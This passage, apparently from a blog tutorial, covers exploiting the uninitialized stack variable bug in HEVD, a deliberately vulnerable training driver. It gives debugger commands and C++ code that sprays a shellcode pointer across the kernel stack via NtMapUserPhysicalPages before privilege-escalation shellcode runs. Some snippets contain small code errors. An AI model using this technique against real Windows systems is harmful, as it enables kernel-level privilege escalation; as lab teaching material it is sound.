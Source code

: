 ```
kd> bp HEVD!TriggerUninitializedStackVariable
kd> g
Breakpoint 0 hit
HEVD!TriggerUninitializedStackVariable:
9997d2a0 68fc000000      push    0FCh
kd> g
```

## Spraying the stack

The technique we are going to use to spray the stack is using the `NtMapUserPhysicalPages` function.

```c++
BOOL MapUserPhysicalPages(
  PVOID      VirtualAddress,
  ULONG_PTR  NumberOfPages,
  PULONG_PTR PageArray
);
```

You can define this in our code, since finding a library for this doesn't seem likely (according to other blog posts)

```c++
typedef NTSTATUS(WINAPI *_NtMapUserPhysicalPages)(
    PINT BaseAddress,
    UINT32 NumberOfPages,
    PBYTE PageFrameNumbers);
```
And from here we just need to create a function to spray an allocated shellcode payloads pointer around throughout memory.

You can start by creating a variable to hold our shellcode payloads allocated pointer, our shellcode is like always, just use the EOP shellcode, and adjust any sort of fix towards the end if needs be.

`LPVOID shellcodePointerSpray = &shellcodePointer;` this get's a pointer to our shellcode payload.

You can then define the start address for our virtual addresses to spray, this is the `BaseAddress` member.

```c++
PVOID BaseAddress = 0;
char Page_Frame_Numbers[4096] = { 0 };
```

You can also set the page frame numbers, which will turn into the `PageFrameNumbers` member.

Now we can start our actual loop, which loops through memcpy to conduct the spray, I wanted to increment this twice, 0->512, and 512->1024, just in case something strange happens, we can see where the spraying doesn't work.

```c++
for (int i = 0; i < 512; i++)
{
    memcpy((Page_Frame_Numbers + (i * 4)), shellcodePointerSpray, 4);
}
std::cout << "\t[+] Spraying 512 pages" << std:endl

for (int i = 512; i < 1024; i++)
{
    memcpy((Page_Frame_Numbers + (i * 4)), shellcodePointerSpray, 4);
}
```
Then you can actually call the function, with our provided pointer to our virtual base address starting point, 1024 for the number of total pages we want to map (since we sprayed 1024). And then a pointer to our page frame number.
